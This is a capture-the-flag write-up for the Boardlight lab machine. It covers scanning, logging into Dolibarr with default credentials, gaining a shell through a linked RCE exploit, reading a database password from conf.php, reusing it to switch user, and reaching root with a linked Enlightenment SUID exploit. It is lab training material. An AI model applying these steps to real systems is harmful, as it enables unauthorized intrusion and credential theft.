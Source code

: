 # Boardlight

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt="" width="225"><figcaption></figcaption></figure>

## Enumeration

### Port Scan

```bash
PORT   STATE SERVICE REASON  VERSION                                                                                                                                                                               
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)                                                                                                                         
| ssh-hostkey:                                                                                                                                                                                                     
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)                                                                                                                                                     
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDH0dV4gtJNo8ixEEBDxhUId6Pc/8iNLX16+zpUCIgmxxl5TivDMLg2JvXorp4F2r8ci44CESUlnMHRSYNtlLttiIZHpTML7ktFHbNexvOAJqE1lIlQlGjWBU1hWq6Y6n1tuUANOd5U+Yc0/h53gKu5nXTQTy1c9CLbQfaYvFjnz
rR3NQ6Hw7ih5u3mEjJngP+Sq+dpzUcnFe1BekvBPrxdAJwN6w+MSpGFyQSAkUthrOE4JRnpa6jSsTjXODDjioNkp2NLkKa73Yc2DHk3evNUXfa+P8oWFBk8ZXSHFyeOoNkcqkPCrkevB71NdFtn3Fd/Ar07co0ygw90Vb2q34cu1Jo/1oPV1UFsvcwaKJuxBKozH+VA0F9hyriPKjsv
TRCbkFjweLxCib5phagHu6K5KEYC+VmWbCUnWyvYZauJ1/t5xQqqi9UWssRjbE1mI0Krq2Zb97qnONhzcclAPVpvEVdCCcl0rYZjQt6VI1PzHha56JepZCFCNvX3FVxYzEk=                                                                               
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)                                                                                                                                                    
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK7G5PgPkbp1awVqM5uOpMJ/xVrNirmwIT21bMG/+jihUY8rOXxSbidRfC9KgvSDC4flMsPZUrWziSuBDJAra5g=                                                 
|   256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)                                                                                                                                                  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILHj/lr3X40pR3k9+uYJk4oSjdULCK0DlOxbiL66ZRWg                                                                                                                                 
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))                                                                                                                                                        
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).                                                                                                                                                
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Directory Scan

```bash
└─➜ ffuf -u http://board.htb/FUZZ -w /usr/share/wordlists/Discovery/Web-Content/common.txt -e .php                                                                                                             [1]

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/Discovery/Web-Content/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 316ms]
.htaccess.php           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 318ms]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 319ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 320ms]
.hta.php                [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 320ms]
.htpasswd.php           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 322ms]
about.php               [Status: 200, Size: 9100, Words: 3084, Lines: 281, Duration: 334ms]
contact.php             [Status: 200, Size: 9426, Words: 3295, Lines: 295, Duration: 410ms]
css                     [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 409ms]
do.php                  [Status: 200, Size: 9209, Words: 3173, Lines: 295, Duration: 408ms]
images                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 385ms]
index.php               [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 408ms]
index.php               [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 409ms]
js                      [Status: 301, Size: 303, Words: 20, Lines: 10, Duration: 408ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 407ms]
:: Progress: [9454/9454] :: Job [1/1] :: 103 req/sec :: Duration: [0:01:38] :: Errors: 0 ::

```

### Subdomain Scan

```bash
└─➜ ffuf -u http://board.htb/ -w /usr/share/wordlists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.board.htb'  -fw 6243                                                                        [0] 
                                                                                                                                                                                                                   
        /'___\  /'___\           /'___\                                                                                                                                                                            
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                                                            
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                                                           
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                                                           
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                                                                            
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 6243
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 1944ms]
:: Progress: [4989/4989] :: Job [1/1] :: 125 req/sec :: Duration: [0:00:49] :: Errors: 0 ::

```

## Web Attack

Under subdomain we can see it's hosting dolibarr (v17.0.0). This version is vulnerable to RCE.

* You can login with default credentials (`admin:admin`) on (`crm.board.htb`)

### Resource

* https://github.com/advisories/GHSA-9wqr-5jp4-mjmh
*   https://www.swascan.com/security-advisory-dolibarr-17-0-0/

    * Alternative: https://www-swascan-com.translate.goog/it/security-advisory-dolibarr-17-0-0/?\_x\_tr\_sl=it&\_x\_tr\_tl=en&\_x\_tr\_hl=en&\_x\_tr\_pto=sc


* [https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

## Shell www-data

After we exploit, we get a www-data shell

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

The default config files are under `htdocs/conf/conf.php`

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

<<SNIP>>
```



## Shell - user

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su - larissa
su - larissa
Password: serverfun2$2023!!
id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
```

We can ssh into the box for proper tty shell.

## Shell root

<pre class="language-bash"><code class="lang-bash">larissa@boardlight:~$ find / -perm -4000 -ls 2>find / -perm -4000 -ls 2>/dev/null
<strong> 2491     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
</strong>  608     16 -rwsr-sr-x   1 root     root        14488 Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
17633     28 -rwsr-xr-x   1 root     root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
17628     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
17627     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
17388     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
    
    
    &#x3C;&#x3C;SNIP>>
</code></pre>

If we google about enlightenment, we see it's a WM for Xorg.

```bash
larissa@boardlight:~$ enlightenment --version
ESTART: 0.00002 [0.00002] - Begin Startup
ESTART: 0.00121 [0.00119] - Signal Trap
ESTART: 0.00123 [0.00002] - Signal Trap Done
ESTART: 0.00277 [0.00154] - Eina Init
ESTART: 0.00496 [0.00219] - Eina Init Done
ESTART: 0.00500 [0.00004] - Determine Prefix
ESTART: 0.00693 [0.00193] - Determine Prefix Done
ESTART: 0.00696 [0.00003] - Environment Variables
ESTART: 0.00698 [0.00002] - Environment Variables Done
ESTART: 0.00699 [0.00001] - Parse Arguments
Version: 0.23.1
E: Begin Shutdown Procedure!
```

After googling the version, we can find the exploit,\
[https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh)



```bash
larissa@boardlight:/tmp/heap$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
```

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes' still pwning
